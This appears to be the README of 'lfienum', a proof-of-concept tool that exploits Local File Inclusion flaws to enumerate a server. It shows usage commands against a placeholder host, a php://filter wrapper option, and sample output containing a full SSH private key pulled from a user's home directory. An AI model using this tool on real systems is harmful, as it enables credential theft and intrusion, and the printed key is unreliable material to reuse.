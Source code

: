 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

```
lfiǝnum ~by 0bfxgh0st*

Usage python3 lfienum <url> <option>

Options:

       --pid          Bruteforce 999 process id
       --wrapper      (php://filter/convert.base64-encode/resource=)
       --wordlist     Use a custom wordlist
       --key          Extract id_rsa key

Examples:
           python3 lfienum "http://ghost.server/index.php?page="
           python3 lfienum "http://ghost.server/index.php?page=" --pid
           python3 lfienum "http://ghost.server/index.php?page=" --wrapper index.php
           python3 lfienum "http://ghost.server/index.php?page=" --wordlist wordlist.txt
           python3 lfienum "http://ghost.server/index.php?page=" --key
```

Auto id_rsa key extraction from /etc/passwd, check `def ID_RSA():` function  
Output example:  
```
...

[SSH ID_RSA KEY]
ghost key from http://ghost.server/index.php?file=/home/ghost/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDRScoSFO
Tk3d1A0K1kYCQzAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQC5SLRm3gjC
mXU6nHisg7VT0UxRTuoyL9IkiV9xPjdx44fTujyqsmjS+VjKyhGiTw+UB3jDZr81jCv4DO
WiwRc+A7PxnBA0qP1UU9OxuVaSgetSHCbjTNU4UlCPDBo2iZV2gw17CzuwGqa3Yz/UWoUV
KxKU+vMwO+evzUkL3w1LoAWKvWG0VfAdRh4rqXKsNDHoTdWBWLvLCx7PkBH8fF6+OIM+Lq
NM1tVQYuSHpAoNbj5bnGwLEt4Z8GqyZELdaNt8lc7XdO8YbAmPN/boyEZd9KRO/FdeuayE
yRQygxpz25goYGuj+Gdg3uQFEScDtYyUKwpsUsNDv1q0KOLWntT+5I8bHwME6ozqBBRba9
5K7kbCxLLwHxvN7E+dMFxH2e1J3uax1d/h5D1JNrJpi0KsFeycPL6Hr2StfNORRhdXEKGd
HudCjvhjRx27rAEwVBj/gcTS5Esu5sd0R5ToXb1ukT/lFhXjsW3qHYHexjbZQ7kSJPxJrg
KhOPkQ0YeBYzJzS9ffFjIZdTUBcLuE518rNKnKezPl7H9TNNnuHRgL/XycbrfUVWQVS+yo
aW6jjhykuO43zeiTNe/tyJUkBlJu5vs4xM1aDMSQW6fn2iVDrRbxY0lzq11fT59RbIQXzv
fL9B4SSMC6ccKVJlyYNLTZVpPyOonFvy6hThflpkhA/mGVgMvDyiwxLx/5+odvRRD7Gg0w
vyRsUY5/8RfNIZelJ731cwccRbbNfUmUbOcSG0yPMrBdGUldSwiqI9XyswM/goLzIKPC/7
UKQmKZ8oy7B5utVOW5aWqZCFe+shV8qPvaS/4bUaykQMdcFclbD22Pinwx6X6DHnGcmRtF
m+1QuC+jT23hAtJbqsafYQ61sUxkAQUExKdBQ+l7l6a0OZhG+L28P7xuQ7wwhhX6PpeKmD
HO1fvy1tu3wuQ9MAHGqMP+W2CJMVt3W4SvMasLIklPWDjy5iaii4WJkijIHopldyyL7wJ7
QRcxfhQ+4r+6virvZEo/2CkWtIhi8IcyPx6bQA54iu9eKkZE1gOdyDJogIrvkv+787rAlL
skyX2Q==
-----END OPENSSH PRIVATE KEY-----
```
Internal wordlist from sources:  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt  
